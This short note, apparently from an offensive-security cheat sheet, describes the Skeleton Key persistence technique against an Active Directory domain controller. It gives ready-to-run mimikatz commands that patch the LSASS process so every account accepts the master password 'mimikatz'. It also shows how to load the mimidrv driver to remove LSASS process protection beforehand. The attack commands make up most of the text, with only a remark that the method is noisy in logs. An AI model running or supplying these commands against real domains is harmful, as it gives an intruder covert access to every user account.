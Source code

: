 - Persistence technique where it is possible to path the DC's lssass process so that it allows access as any user with a single password.
- Discovered by Dell Secureworks.
- Using mimikatz to inject skeleton key
```powershell
privilege::debug # 200 OK
misc::skeleton
# Any resource can be accessed by it's username and password as "mimikatz"
```
- In case the lssass.exe process in running as a protected process, we need to use the mimidriv.sys (mimikatz driver) to use skeleton key:
```powershell
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton
!-
# NOTE: The above process is noisy in logs
```